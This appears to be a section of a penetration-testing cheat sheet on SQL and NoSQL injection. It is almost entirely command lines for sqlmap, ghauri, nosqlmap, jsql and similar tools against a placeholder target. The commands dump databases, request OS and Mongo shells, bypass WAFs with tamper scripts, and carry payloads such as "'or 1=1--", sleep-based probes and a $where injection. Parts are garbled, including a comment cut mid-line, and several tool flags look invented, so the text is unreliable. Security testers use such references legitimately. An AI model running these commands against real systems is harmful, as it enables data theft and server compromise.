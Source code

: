 ### 3.3 SQL Injection Testing
    :- Automated SQLi, enumerate databases
    sqlmap -u "https://target.com/product?id=1" --batch --level 3 --risk 2 --dbs 
    
    :- Test POST request, 5 threads
    sqlmap -u "https://target.com/search.php" --data="query=keyword" --dbs --threads 5 
    
    :- Specify parameter, use tamper script, get current user
    sqlmap -u "https://target.com/user?id=1" -p id --tamper=space2comment --random-agent --current-user 
    
    :- Load request from file, attempt OS shell
    sqlmap -l request.txt --level 5 --risk 3 --os-shell
    
    :- Specify DBMS, get banner
    sqlmap -u "https://target.com/vuln.php?id=1&cat=2" --dbms=MySQL --banner
    
    :- Test forms found by crawling
    sqlmap -u "https://target.com/login" --forms --crawl=2 --batch

    :- Load raw HTTP request, specify parameter, use specific techniques (boolean, error, union, stacked, time-based, inline), 

    :-ump data
    sqlmap -r post_request.txt -p username --technique=BEUSQ --dump
    
    :- Manual injection point with eval for dynamic payloads
    sqlmap -u "https://api.target.com/items?filter=FUZZ" --eval="import time; time.sleep(0.1)" --prefix="'" --suffix="-- -" 

    
    :- Modern SQLi scanner, list DBs
    ghauri -u "https://target.com/search.php?q=test" --dbs
    
    :- Scan from request file, specify parameter
    ghauri -r request_file.txt -p vulnerable_param --level 3 --risk 2
    ----
        sqlmap -u "https://target.com?id=1" --batch
    sqlmap -u "https://target.com?id=1" --batch --level 5 --risk 3 --dbs
    sqlmap -r request.txt --dbs
    nosqli scan -u https://target.com/api?id=1
    nosqlmap -u https://target.com/api?query=admin
    ghauri --url https://target.com/search.php?q=1 --dbs
    jsql -u https://target.com/vuln.jsp?id=1
    sqli-detector -u https://target.com/login
    ------
    sqlmap -u "https://target.com?id=1" --batch --level 5 --risk 3 --dbs --threads 10
    sqlmap -u "https://target.com/news.php?id=1" --dbs --tamper="apostrophemask,apostrophenullencode,charencode"
    nosqlmap -u https://target.com/api?query=admin --mongo-shell --os-shell
    nosqlmap -u https://target.com/users --get --value "'or 1=1--"
    ghauri --url https://target.com/search.php?q=1 --dbs --threads 5
    ghauri --url https://target.com/item?name=test' --identify
    jsql -u https://target.com/vuln.jsp?id=1 --test="AND SLEEP(5)"
    jsql -u https://target.com/data.jsp?search=admin%25' --blind
    sqli-detector -u https://target.com/login --data "username=test&password='or 1=1--'"
    sqli-detector -u https://target.com/profile.php?user=1' --check-errors
    ------
    sqlmap -u "https://target.com?id=1" --batch --level 5 --risk 3 --dbs --threads 15 --tamper="apostrophemask,apostrophenullencode,charencode,randomcase,unionallcols,unmagicquotes"
    sqlmap -u "https://target.com/news.php?id=1" --dbs --tamper="base64encode,htmlencode,urlencode" --time-sec 10
    nosqlmap -u https://target.com/api?query=admin --mongo-shell --os-shell --tamper="modunion"
    nosqlmap -u https://target.com/users --get --value "'});db.injection.find({$where:'sleep(5000)'});//"
    ghauri --url https://target.com/search.php?q=1 --dbs --threads 7 --tamper="space2comment"
    ghauri --url https://target.com/item?name=test' --identify --skip-waf
    jsql -u https://target.com/vuln.jsp?id=1 --test="PROCEDURE ANALYSE(sleep(5))"
    jsql -u https://target.com/data.jsp?search=admin%25' --blind --string "admin record"
    sqli-detector -u https://target.com/login --data "username=test&password='or sleep(5)--'" --timeout 10
    sqli-detector -u https://target.com/profile.php?user=1' --check-errors --verbose
